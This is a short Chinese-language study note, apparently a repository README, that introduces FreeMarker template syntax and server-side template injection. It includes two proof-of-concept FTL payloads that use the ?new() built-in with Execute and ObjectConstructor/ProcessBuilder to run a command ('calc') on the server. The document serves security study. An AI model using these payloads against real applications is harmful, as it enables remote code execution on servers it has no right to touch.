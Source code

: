 ## FreeMarker介绍
FreeMarker 是一款模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本(HTML网页，电
子邮件，配置文件，源代码等)的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员
可以嵌入他们所开发产品的组件。

![img.png](img/img.png)

ftl由以下部分组成
- 文本：文本会照着原样来输出。

- 插值：这部分的输出会被计算的值来替换。插值由 ${ and } 所分隔(或者 #{ and } ，这种风格
已经不建议再使用了；（http://freemarker.foofun.cn/ref_depr_numerical_interpo
lation.html）)。

- FTL 标签：FTL标签和HTML标签很相似，但是它们却是给FreeMarker的指示， 而且不会打印在输
出内容中。

- 注释：注释和HTML的注释也很相似，但它们是由 <#-- 和 --> 来分隔的。注释会被FreeMarker直
接忽略， 更不会在输出内容中显示

![img_1.png](img/img_1.png)
## 模板注入漏洞
SSTI （Server-Side Template Injection，服务器端模板注入），广泛来说是在模板引擎解析模板时，可
能因为代码实现不严谨，存在将恶意代码注入到模板的漏洞。这种漏洞可以被攻击者利用来在服务器端
执行任意代码，造成严重的安全威胁。

内建函数`new`可以创建一个继承自`freemarker.template.TemplateModel`类的对象  
以下代码会调用MyModel构造方法 

`myModel：<#assign myModel="org.example.model.MyModel"?new()>`

poc1:
```html
弹计算器：<#assign value="freemarker.template.utility.Execute"?new()>
${value("calc")}
```
poc2:
```html
弹计算器2：<#assign value="freemarker.template.utility.ObjectConstructor"?new()>
${value("java.lang.ProcessBuilder","Calc").start()}
```

待补充：  
漏洞触发流程

## 参考项目

- [模板注入漏洞freemarker](http://39.106.93.218/2023/10/15/%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9Efreemarker/)
- [FreeMarker入门到简要分析模版注入](https://xz.aliyun.com/t/12637)